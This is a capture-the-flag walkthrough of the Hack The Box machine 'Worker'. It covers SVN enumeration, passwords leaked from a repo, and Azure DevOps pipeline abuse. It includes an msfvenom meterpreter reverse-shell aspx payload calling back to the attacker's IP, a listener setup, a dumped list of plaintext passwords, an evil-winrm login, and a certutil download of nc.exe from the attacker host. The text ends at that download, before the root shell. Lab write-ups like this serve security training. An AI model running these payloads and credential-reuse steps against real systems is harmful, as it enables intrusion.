# Initial Enumeration

**Nmap Scan Results:**
Threader3000 was used to initailly enumerate the system.
```sh
------------------------------------------------------------
        Threader 3000 - Multi-threaded Port Scanner          
                       Version 1.0.7                    
                   A project by The Mayor               
------------------------------------------------------------
Enter your target IP address or URL here: 10.10.10.203
------------------------------------------------------------
Scanning target 10.10.10.203
Time started: 2021-08-14 08:37:24.986122
------------------------------------------------------------
Port 80 is open
Port 3690 is open
Port 5985 is open
Port scan completed in 0:01:38.909253
------------------------------------------------------------
Threader3000 recommends the following Nmap scan:
************************************************************
nmap -p80,3690,5985 -sV -sC -T4 -Pn -oA 10.10.10.203 10.10.10.203
************************************************************
Would you like to run Nmap or quit to terminal?
------------------------------------------------------------
1 = Run suggested Nmap scan
2 = Run another Threader3000 scan
3 = Exit to terminal
------------------------------------------------------------
Option Selection: 1
nmap -p80,3690,5985 -sV -sC -T4 -Pn -oA 10.10.10.203 10.10.10.203
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 08:39 EDT
Nmap scan report for 10.10.10.203
Host is up (0.021s latency).

PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3690/tcp open  svnserve Subversion
5985/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.22 seconds
------------------------------------------------------------
Combined scan completed in 0:01:50.809785
Press enter to quit...
```


I looked quick at port 80 and 5985 but neither revealed anything, gobuster was no help here either. Port 3690 was not something I was familiar with, so I went to google. [hacktricks](https://book.hacktricks.xyz/pentesting/3690-pentesting-subversion-svn-server) showed some ways to enumerate this service. Svnserve is another version control service. 
```sh
┌──(kali㉿kali)-[~/boxes/htb/worker]
└─$ svn log svn://10.10.10.203
------------------------------------------------------------------------
r5 | nathen | 2020-06-20 09:52:00 -0400 (Sat, 20 Jun 2020) | 1 line

Added note that repo has been migrated
------------------------------------------------------------------------
r4 | nathen | 2020-06-20 09:50:20 -0400 (Sat, 20 Jun 2020) | 1 line

Moving this repo to our new devops server which will handle the deployment for us
------------------------------------------------------------------------
r3 | nathen | 2020-06-20 09:46:19 -0400 (Sat, 20 Jun 2020) | 1 line

-
------------------------------------------------------------------------
r2 | nathen | 2020-06-20 09:45:16 -0400 (Sat, 20 Jun 2020) | 1 line

Added deployment script
------------------------------------------------------------------------
r1 | nathen | 2020-06-20 09:43:43 -0400 (Sat, 20 Jun 2020) | 1 line

First version
------------------------------------------------------------------------
```

The above output shows there are 5 revisions. I used svn checkout to get the files.
```sh
┌──(kali㉿kali)-[~/boxes/htb/worker]
└─$ svn checkout svn://10.10.10.203
A    dimension.worker.htb
A    dimension.worker.htb/LICENSE.txt
A    dimension.worker.htb/README.txt
A    dimension.worker.htb/assets
A    dimension.worker.htb/assets/css
A    dimension.worker.htb/assets/css/fontawesome-all.min.css
A    dimension.worker.htb/assets/css/main.css
A    dimension.worker.htb/assets/css/noscript.css
A    dimension.worker.htb/assets/js
A    dimension.worker.htb/assets/js/breakpoints.min.js
A    dimension.worker.htb/assets/js/browser.min.js
A    dimension.worker.htb/assets/js/jquery.min.js
A    dimension.worker.htb/assets/js/main.js
A    dimension.worker.htb/assets/js/util.js
A    dimension.worker.htb/assets/sass
A    dimension.worker.htb/assets/sass/base
A    dimension.worker.htb/assets/sass/base/_page.scss
A    dimension.worker.htb/assets/sass/base/_reset.scss
A    dimension.worker.htb/assets/sass/base/_typography.scss
A    dimension.worker.htb/assets/sass/components
A    dimension.worker.htb/assets/sass/components/_actions.scss
A    dimension.worker.htb/assets/sass/components/_box.scss
A    dimension.worker.htb/assets/sass/components/_button.scss
A    dimension.worker.htb/assets/sass/components/_form.scss
A    dimension.worker.htb/assets/sass/components/_icon.scss
A    dimension.worker.htb/assets/sass/components/_icons.scss
A    dimension.worker.htb/assets/sass/components/_image.scss
A    dimension.worker.htb/assets/sass/components/_list.scss
A    dimension.worker.htb/assets/sass/components/_table.scss
A    dimension.worker.htb/assets/sass/layout
A    dimension.worker.htb/assets/sass/layout/_bg.scss
A    dimension.worker.htb/assets/sass/layout/_footer.scss
A    dimension.worker.htb/assets/sass/layout/_header.scss
A    dimension.worker.htb/assets/sass/layout/_main.scss
A    dimension.worker.htb/assets/sass/layout/_wrapper.scss
A    dimension.worker.htb/assets/sass/libs
A    dimension.worker.htb/assets/sass/libs/_breakpoints.scss
A    dimension.worker.htb/assets/sass/libs/_functions.scss
A    dimension.worker.htb/assets/sass/libs/_mixins.scss
A    dimension.worker.htb/assets/sass/libs/_vars.scss
A    dimension.worker.htb/assets/sass/libs/_vendor.scss
A    dimension.worker.htb/assets/sass/main.scss
A    dimension.worker.htb/assets/sass/noscript.scss
A    dimension.worker.htb/assets/webfonts
A    dimension.worker.htb/assets/webfonts/fa-brands-400.eot
A    dimension.worker.htb/assets/webfonts/fa-brands-400.svg
A    dimension.worker.htb/assets/webfonts/fa-brands-400.ttf
A    dimension.worker.htb/assets/webfonts/fa-brands-400.woff
A    dimension.worker.htb/assets/webfonts/fa-brands-400.woff2
A    dimension.worker.htb/assets/webfonts/fa-regular-400.eot
A    dimension.worker.htb/assets/webfonts/fa-regular-400.svg
A    dimension.worker.htb/assets/webfonts/fa-regular-400.ttf
A    dimension.worker.htb/assets/webfonts/fa-regular-400.woff
A    dimension.worker.htb/assets/webfonts/fa-regular-400.woff2
A    dimension.worker.htb/assets/webfonts/fa-solid-900.eot
A    dimension.worker.htb/assets/webfonts/fa-solid-900.svg
A    dimension.worker.htb/assets/webfonts/fa-solid-900.ttf
A    dimension.worker.htb/assets/webfonts/fa-solid-900.woff
A    dimension.worker.htb/assets/webfonts/fa-solid-900.woff2
A    dimension.worker.htb/images
A    dimension.worker.htb/images/bg.jpg
A    dimension.worker.htb/images/overlay.png
A    dimension.worker.htb/images/pic01.jpg
A    dimension.worker.htb/images/pic02.jpg
A    dimension.worker.htb/images/pic03.jpg
A    dimension.worker.htb/index.html
A    moved.txt
Checked out revision 5.

```

Assuming some startup script might contain some useful information I went right to revision 1 and worked my way through each revision to see what was added/removed.
```sh
┌──(kali㉿kali)-[~/boxes/htb/worker]
└─$ svn up -r 1
Updating '.':
D    moved.txt
Updated to revision 1.
```

Looking at the files I noticed this subdomain, so I added this to /etc/hosts
```sh
dimension.worker.htb/index.html
```



Took a quick look at the page, but I wanted to finish lookin at the revisions. Moving back to the revisions, Nothing special in the files of revision 1, checking revision 2 however shows deploy.ps1 was added. Taking a look at that it shows a username and password.

```sh
┌──(kali㉿kali)-[~/boxes/htb/worker]
└─$ svn up -r 2
Updating '.':
A    deploy.ps1
Updated to revision 2.
```

```sh
$user = "nathen" 
$plain = "wendel98"
$pwd = ($plain | ConvertTo-SecureString)
$Credential = New-Object System.Management.Automation.PSCredential $user, $pwd
$args = "Copy-Site.ps1"
Start-Process powershell.exe -Credential $Credential -ArgumentList ("-file $args")
```

Looking at the next revision, they fixed the error
```sh
$user = "nathen" 
# NOTE: We cant have my password here!!!
```

looking at revision 5, it looks like this specific site is no longer maintained but gives the path to another subdomain.

```sh
This repository has been migrated and will no longer be maintaned here.
You can find the latest version at: http://devops.worker.htb

// The Worker team :)
```

Visiting http://devops.worker.htb, after adding it to /etc/hosts prompted me with a login, which I entered the credentials found earlier. 



This leads us to an Azure DevOps page. 



After messing around on the site, I was able to create to create a new branch by going into the SmartHotel360 project > Repos then click on "master" at the top of the page to create a new branch. 



name the branch whatever you want



Right click on Spectral, you should be within the new branch, and click on upload file.



Create payload with msfvenom
```sh
┌──(kali㉿kali)-[~/boxes/htb/worker]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.12 LPORT=443 -f aspx -o test.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of aspx file: 3645 bytes
Saved as: test.aspx
```

Browse to the file, select the payload just created and then click on commit.




Now that the .aspx file has been added to the branch, I needed to go to pipelines and queue the build with the branch just created. This took me a little to figure out, as just completing a pull request did not upload the payload. Navigate to Pipelines, select the correct repository and click on Queue in the upper right hand corner, shown in the image below. The user currently is able to queue a build, but not create a new build.



Select the correct branch that was created, and click on queue at the bottom.




Within the pipeline section of the devops site, I found this page that showed the target folder of the build (bottom right), note the w:\.




adding another line to /etc/hosts (spectral.worker.htb) I was able to view the site.



Before we visit the page containing the aspx payload, set up a listener with msfconsole

```sh
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.12
LHOST => 10.10.14.12
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.12:443 
```


When I visit the page we uplaoded with the payload, I get a reverse shell in meterpreter



# IIS SHELL

I performed initial enumeration as the iis user, but found nothin interesting initailly, I also uploaded and ran winpeas. Remebering I had seen a w:\ drive, I went there to see what it contained. Some searching led to a passwd file for the svnshare service. The first thing that stood out was the correct username and password for nathen user. Going through the list there is one user here that also has an account on the worker system, robisl.

```sh
W:\svnrepos\www\conf>type passwd
type passwd
### This file is an example password file for svnserve.
### Its format is similar to that of svnserve.conf. As shown in the
### example below it contains one section labelled [users].
### The name and password for each user follow, one account per line.

[users]
nathen = wendel98
nichin = fqerfqerf
nichin = asifhiefh
noahip = player
nuahip = wkjdnw
oakhol = bxwdjhcue
owehol = supersecret
paihol = painfulcode
parhol = gitcommit
pathop = iliketomoveit
pauhor = nowayjose
payhos = icanjive
perhou = elvisisalive
peyhou = ineedvacation
phihou = pokemon
quehub = pickme
quihud = kindasecure
rachul = guesswho
raehun = idontknow
ramhun = thisis
ranhut = getting
rebhyd = rediculous
reeinc = iagree
reeing = tosomepoint
reiing = isthisenough
renipr = dummy
rhiire = users
riairv = canyou
ricisa = seewhich
robish = onesare
robisl = ********
robive = andwhich
ronkay = onesare
rubkei = the
rupkel = sheeps
ryakel = imtired
sabken = drjones
samken = aqua
sapket = hamburger
sarkil = friday
```

I attempted to run winrm to see if I could get a shell as robisl user, and was successful.
```sh
┌──(kali㉿kali)-[~/boxes/htb/worker]
└─$ evil-winrm -i 10.10.10.203 -u robisl -p *******

Evil-WinRM shell v3.2

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\robisl\Documents> 
```

Under this users Desktop folder is where the user.txt is.
```sh
*Evil-WinRM* PS C:\Users\robisl\Desktop> dir


    Directory: C:\Users\robisl\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/15/2021   4:31 PM             34 user.txt

```


Ran Winpeas again as robisl user, did not find anything new. After looking around the system for a bit as robisl, I did not find anything.

# Getting Root Shell

Eventually I tried to log into the Azure DevOps page with robisl's credentials. This allowed access to a different repo, PartsUnlimited. 


I attempted to do a similar method as before, create a new branch and upload an aspx shell. But I was unable to perform the same steps as before, I looked into creating a new build, which the robisl user is allowed to do. I selected Pipelines from the left hand menu, then was brought to the page shown below.



I faced two issues in this next section with trying to get the build to work. First was choosing the correct pipeline, I tried a couple of the ASP.NET ones but received errors. Eventually I tried the "Starter Pipeline" at the bottom of this list, which worked. 


The second issue is I was prompted with this error when trying to build, the pool name "Default" was not valid. [This article](https://docs.microsoft.com/en-us/azure/devops/pipelines/agents/pools-queues?view=azure-devops&tabs=yaml%2Cbrowser) showed me where to find the pool names. 


After selecting the pipeline, chaning the default pool and adding a "whoami" to check if I can execute code here, I ran the build. 


After running the build, and looking through the logs for the multi line script, it shows the results of whoami, not only can I execute code via this build script, but it is executed as NT AUTHORITY\SYSTEM


I had uploaded nc.exe earlier on the system when I was in the IIS shell
```sh
c:\Users\Public>certutil -f -urlcache http://10.10.14.12/nc.exe nc.exe
certutil -f -urlcache http://10.10.14.12/nc.exe nc.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

